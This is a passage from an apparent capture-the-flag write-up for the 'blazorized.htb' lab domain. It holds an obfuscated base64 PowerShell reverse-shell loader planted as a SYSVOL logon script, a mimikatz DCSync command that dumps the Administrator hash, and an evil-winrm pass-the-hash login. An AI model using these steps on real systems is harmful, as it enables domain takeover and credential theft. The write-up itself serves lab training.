BZAEgAZwA0ADIAOABHAHMATAA5AFYAQQBiAHoAUgBmAHIARgBlAFcAbQBCAGcASQBzAGIARgBwAFkAMQBYADAAVQBhADkAegBpAFUASgArAHUAYwBZADQAdABGAGkAaABHAE8AYwBOAHAARwBlAHoAdwBwAFAAdQBIAHQAYQBrAEYAZgBIADIANgBFAFIAYwBEAGgASQBOAG8AYQBEAG0AUAB2AEMAdQBtAEYAeABsAG4AbQBLAHAAcQBoAHoANQBIAGEAMwBNAFUAUABEAFgATgBFADUAcwBPAC8AQQBaAG8AWQBZAHQAeQBtAGwAQQAvADcAWQB4AGYAWQB4AEgAYQA0AG4ATABpAEcAaQB2AEIAYwBvAHcAOQAyADEATgBzADQAOQBtAEoAZwBpAGIARgAzAFIAagBJAHcAOQBFAHEAdwBRAEUAWgA0AGkAQgBHAFEAWABNAHkATgBUAEwAYwB1AFYANABtAFAAMgB1AGcAUwBZADMASwBCAHgAdABiAEcAbwBGADcAMABSAHIAYgA0AFAAawBVAFMAaQBNAFkAWgArAHQAMAAyAGgAcwBsAHEAVwBpAEwAVAAxAEUAbgAwACsAdgAxAEUAMAA5AHoAcQByAGIAQQBkAHIAcABQADYAcgBJADEAWQB1AGMAawBuAGcAdABzAFUAdwBpADEAbgBZADYANwBmAE4AUQBNADEANwBOADcAdQBDAEwAcgB6AGsAUgBTAEUAcAAyAHIARAB3AE4AbAAxAGsAYgAxAEcAUQBmAG0AQQBRAHYARwBDADMANABvAG0AZAAyADIAdABFAEwAcQBDAEsAUQBEAFUAMQBNAFMAWgAwADIAVwB4ADgAZgBZAGQAeQBlAGsAcQBzAEQAcQBVAEcAcQAwAFoAVQB0AG0ARgAvAHgAYQA2AFQAbABEAFgAagBuAFUAVgB2ADIAWgBIAE0AMABGAE4ASgBwAFgAbgA3AHUAOQBqAGkANwB6AHgANwBFADAANAA1AFAASgBvAGoAcABjAHEAUQBkAGgAcQB1AHgAMwB2AFkAMwBiAEMAZABhADcAcwBjAG8AZgBxAC8ATQArAEoAMQBkAHAAVABBAFoAegBRAFoAbAB4AGIASwAzAE8ASgBRAHUAWgBWADMAWQA5AGsALwBkAGwAUQBUAEYAMAByAGgAWgBxAFEAawBMADMATgBXAEcAawBWAE4AZQB5AGQAagB4AHEAUABXAFcAcwBjACsAeABRAG0AMQBGAC8ASABDAHMAbwBtAGEANgBDACsASgBGAGsASABXAHgATwBQAHcAcQB4ADAAMQBjAGIAMwBzADUAVgBJAE4AYgBhADkANgB4ADkAbgBLADUANQByADIAMgB1AEgANwBuAEYAUQBPAEYAVwA4AFEAawA0AFQAeABNAFYAZABsAGkAMQByAGgAMgBmADEAawBqAGUAbQB0AHQAVgAxAFUANwBhADkAdwBoAEwAOQBmAFoAMABZAE4AdQArAE4ARgA0AG0AcgBlAEgAMgBsAEQAeQBLADQAMQBsAEQANQBNADIAQgBwAGwAawA3AFIAOQBYAG4AagA3AGcAOQByAEwAdgBkADEARgAxAHcAegAyADEAaAB0AEwAQQBGAC8AZABoAFkAcgArAEIASQBIAEcANABHAHYATgA4AGEATABQAGsASQBzAHgAQwByAHkAZgBEAGcARABsAGkALwBxAFoAbABSAGkANQBwAE8AcAByAEgAVABmAEQASgBxAHkAbgBvAFcAaQB2ADEAawBPADIAdwBTAFQAdABrAFMAcQBhAHEAcgAyAGcARwBEADcAbgAwAC8AWgBNAFgAYQBvAHQAZAByAFQASgA0AEQAYgBrAHoAdQBuAFcAaQBvAHQANgBMAHEAeQBoADQAQQB0AGIAKwAwAHEAcwBjAFkAMgBvAGYAbQAwACsATgA2AFYAZQAzAGcAWQAzADMASwAxAHgAeQBMAHgAWABKAGIAVABkAFoAKwBZADEAdQBYAHAANwBDAEoAbgBWAFcAMQA1ADYAYQBOAGgAcQAzADcAOQBUAG4AeQBoAE4AbwA1AHAANABNADEAegBWAFYAYQBvADYATwBOAGUATQBwAHEAZABRAFQAMAB2AEcAWgBIAGEAOQBnAHcAagB3AGsANQBzAGEARABkAE8AUgByADkASwBFAGoAbwB2ADAAcAB6ADgAbgA1AEoAWgBZACsAWgBUAEIAQwB3AE4ASwAvAEgAbQAyAFYAdwBwAEgAawBOAFcAagAyAFgAYQAyADEAcwByAGEAawBKAFEAVgBmAEIAWQB0AFMAbABkAGIAKwBwAHcAagBwAHAAZwAxAFMAMwBSAFcAcgBYAHUATwA5AEoAcwBkAHcAMgA2AGgAMQB4ADMAbABQAHkAUAA0ADIAWgBiAG8AOABWAHMANwBZADgAdgByAHoAawBiAFgATAByAFkAVAByADUASgBOAGsAMAA4AFEAKwBHAFAAaAA4AFEAWQBUADYAYQBIAFcAMQB4AHQATABWAG0ANwArAC8AdgA4ADMAWgA0ADgALwBIAHAAOQBTADUANQB1ADQANgBRAEgALwB1AEgAVABVAEwATgAxAFoAdQAzAE4AOQArAHUAcwAwAEkATQBQAG4AWABNAFgAMAAxAG0AWQA0AEQARABQAFUAQwAwAGsAOQBMAHAANgBuAG8AMwBDAGgANABXAEwAagBQAFMAMQBMAE0AeQBqAFcATAB4ADYANwBIACsAQQBMAEUATABFAFIAMQA1ADYAVgBCADgAdgBWAEUANABoAEQAdwBqAG0AKwBwACsATQBWADcAOQArAGQASAB6ADYAYwAyADUAbwBNAHMANgArACsAVwBxADkAUAAxAHkASwBKAFcAdQAxADkANABtADIAbQA3AHoAMABlAGQAeQB4AE8AcwBFACsAUAAwAGEAVwBkAFAAegBsAFQAOABSAEsAVQBGADMAUgAvAFoAbABwAHAAcgBVAHEAOQBWAHEAOQBtAHgAVQBxAGIAWABmAEoANgBiAHIAKwBXAG4AeAB3ADEANAA1AG0ALwAwACsAUQBmAG4AcwBDAHUAVwB1AFAAbwBZADEASABMAGsATwAvAEQALwBHADQAQQBlAHYALwA1ADMAZABqAEwAOQA4AGYAdgB6AE8AWABvADcAbwBhADgAcQB5AEMALwBsAGYAYwBMAEIAdQA1AGQAOABOAEEAQQBBAD0AIgApACkAOwBJAEUAWAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAegBpAHAAUwB0AHIAZQBhAG0AKAAkAHMALABbAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAOwA=' | Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\revshell.bat -Encoding ASCII
Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\revshell.bat'
```

### 反弹shell


### 上传shell文件反弹到msf进行操作


<br/>

<br/>

## DCSync权限-->mimikatz x64

shell进入，启动mimikatz.exe

### 获取hash

```
lsadump::dcsync /domain:blazorized.htb /user:Administrator
```


### ntml登录为administrator

```
sudo evil-winrm -i blazorized.htb -H 'f55ed1465179ba374ec1cad05b34a5f3' -u Administrator
```

